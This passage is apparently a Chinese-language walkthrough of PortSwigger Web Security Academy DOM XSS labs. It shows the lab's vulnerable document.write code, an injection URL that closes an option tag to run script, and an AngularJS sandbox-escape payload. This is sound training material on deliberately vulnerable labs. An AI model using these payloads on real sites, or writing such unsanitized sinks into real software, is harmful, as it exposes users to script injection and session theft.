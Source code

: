 ```javascript=
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```

發現他會吃 storeId 參數，然後進去裡面

```
https://ac721f361f19caf4c02c4c270073000e.web-security-academy.net/product?productId=1&storeId=123</option><script>alert(1)</script>
```

## [Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)
### 題目敘述
 This lab contains a DOM-based cross-site scripting vulnerability in a AngularJS expression within the search functionality.

AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.

To solve this lab, perform a cross-site scripting attack that executes an AngularJS expression and calls the alert function. 
### 題目解釋
AngularJS

### 解答

直接送最普通的會發現被 Encode 了
```
<h1>0 search results for '&lt;script&gt;alert(1)&lt;/script&gt;'</h1>
```

Google 找到 Angular 的 XSS 方法在  [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md) 上

```
{{constructor.constructor('alert(1)')()}}
```
